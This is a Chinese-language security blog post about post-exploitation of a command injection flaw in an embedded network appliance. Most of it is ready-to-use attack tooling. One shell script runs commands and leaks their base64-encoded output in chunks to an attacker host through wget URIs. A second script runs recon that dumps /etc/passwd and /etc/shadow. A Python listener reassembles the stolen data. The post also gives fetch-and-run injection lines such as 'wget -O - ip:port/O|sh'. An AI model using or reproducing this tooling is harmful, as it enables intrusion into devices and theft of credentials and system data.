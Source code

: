 ```yaml
---
layout: post
comments: true
title: 命令注入后渗透利用之wget信息收集
category: 网络安全
keywords: RCE,cmdi,2021
---
```


## 背景
前段时间挖掘到一个SXF产品的命令注入漏洞，发现设备支持wget，但是通过各种方法都无法把设备信息外传。很可能是因为嵌入式设备因flash空间有限，对很多程序进行裁剪，很多参数都不支持了。

基于这个背景，我尝试编写一个通过wget泄露信息的脚本。

## 设计思路
总体思路分成三个脚本实现目标功能，shell脚本W和O，python脚本wget_leck_ser.py。

### shell脚本W
+ 步骤1 通过参数传入要执行的命令，把命令执行结果重定向到/tmp目录下的一个临时文件
+ 步骤2 读取临时文件并进行base64编码
+ 步骤3 通过awk把base64编码后的字符串进行分割
+ 步骤4 通过wget把分割后的字符串依次放在URI中外传

### shell脚本O
+ 步骤1 给脚本W增加执行权限
+ 步骤2 执行一系列预置的命令，把命令传给脚本W执行

### python脚本wget_leck_ser.py
+ 步骤1 执行脚本，启动web服务
+ 步骤2 把接受到的请求的URI拼接起来，直至遇到FINISH信息
+ 步骤3 接受到FINISH后，把拼接在一起的URI通过base64解码

发现命令注入点后，首先通过wget命令，把W.sh上传到目标设备的/tmp目录下。
可以注入命令如 wget ip:port/W -O /tmp/W

接着在测试机启动wget_leck_ser.py监听信息
python wget_leck_ser.py

最后通过wget不落地执行脚本O，获取目标信息
wget -O - ip:port/O|sh

## 实现
下面是三个脚本的实现

### shell脚本W
```
#!/bin/sh

REMOTE="192.168.1.2:6789"

OUTPUT_stdout="/tmp/U.stdout.output"
OUTPUT_stderr="/tmp/U.stderr.output"
WGETLEAK="wget "$REMOTE"/c="

if [ $# -eq 0 ]; then
    exit
fi

wget_send() {
    cmd=$WGETLEAK$1
    eval $cmd
}

# CMD
wget_send `echo "#"$* | base64`
wget_send "FINISH"

# BODY
# CMD=$*"|base64|sed ':a;N;$!ba;s/\n//g'"
eval $* > $OUTPUT_stdout 2> $OUTPUT_stderr
cat $OUTPUT_stderr >> $OUTPUT_stdout

strarr=`cat $OUTPUT_stdout | base64 | awk -F "" '{
    k=128
    for (i=1;i<=NF;i=i+k) {
        tmp="";
        for (j=0;j<k&&i+j<=NF;j++)
            tmp=(tmp""$(i+j));
        print tmp;
    }
}'`

for str in $strarr
do
    wget_send $str
done

wget_send "FINISH"

rm -rf $OUTPUT_stdout $OUTPUT_stderr
```

### shell脚本O
```
#!/bin/sh

chmod 777 /tmp/W
chmod +x  /tmp/W

/tmp/W whoami
/tmp/W id
/tmp/W pwd
/tmp/W ls -al /

exit 1
/tmp/W echo $PATH
/tmp/W ls -al /bin/
/tmp/W ls -al /sbin
/tmp/W ls -al /usr/bin/
/tmp/W ls -al /usr/sbin

/tmp/W mount
/tmp/W ps aux
/tmp/W ps -ef
/tmp/W netstat -tulnp
/tmp/W ifconfig
/tmp/W fdisk -l

/tmp/W busybox
/tmp/W file /bin/busybox


/tmp/W cat /proc/cmdline
/tmp/W cat /proc/cpuinfo
/tmp/W cat /proc/meminfo
/tmp/W cat /proc/modules
/tmp/W cat /proc/uptime
/tmp/W cat /proc/zoneinfo


/tmp/W iptables -L
/tmp/W cat /etc/passwd
/tmp/W cat /etc/shadow
/tmp/W cat /etc/fstab
/tmp/W cat /etc/rc.local

for dir in `ls /`
do
    if [ "$dir" == "proc" ];then
        echo ""
    elif [ "$dir" == "sys" ];then
        echo ""
    else
        /tmp/W ls -Ra "/"$dir
    fi
done

echo "### Start ###" > /tmp/procinfo.tmp
for dir in `ls /proc`
do
	echo "" >> /tmp/procinfo.tmp
	echo "++++++ check /proc/"$dir >> /tmp/procinfo.tmp
	ls -al "/proc/"$dir"/exe" >> /tmp/procinfo.tmp
	cat "/proc/"$dir"/cmdline" >> /tmp/procinfo.tmp
done
/tmp/W cat /tmp/procinfo.tmp
rm /tmp/procinfo.tmp
```

### python脚本wget_leck_ser.py
```
from http.server import BaseHTTPRequestHandler,HTTPServer
import base64
import os

glo_content = ''
glo_filename = ''

class handler(BaseHTTPRequestHandler):
    def _set_headers(self):
        self.send_response(404)
        self.send_header('Content-type', 'text/html')
        self.end_headers()

    def log_message(self, argv1, argv2, argv3, argv4):
        pass

    def do_GET(self):
        global glo_content
        global glo_filename
        self._set_headers()
        recv = self.path.split('c=')[1]
        if recv == 'FINISH':
            try:
                content = base64.b64decode(glo_content).decode(errors='ignore')
                if content[0] == '#':
                    content = '\n' + content

                print(content)
                with open(glo_filename, 'a+') as fp:
                    fp.write(content)
            except Exception as exp:
                print(exp)
                print("[ERROR] Base64 decode error.")
            glo_content=''
        else:
            glo_content += recv
        self.wfile.write("".encode())

def run(server_class=HTTPServer, handler_class=handler, port=6789):
    global glo_filename
    filecnt = 1
    while True:
        glo_filename = "targetInfo_" + str(filecnt).zfill(3) + '.txt'
        if os.path.exists(glo_filename) is True:
            filecnt += 1
        else:
            break

    httpd = server_class(('0.0.0.0', port), handler_class)
    print('Server running at 0.0.0.0:%d...' % port)
    httpd.serve_forever()

run()
```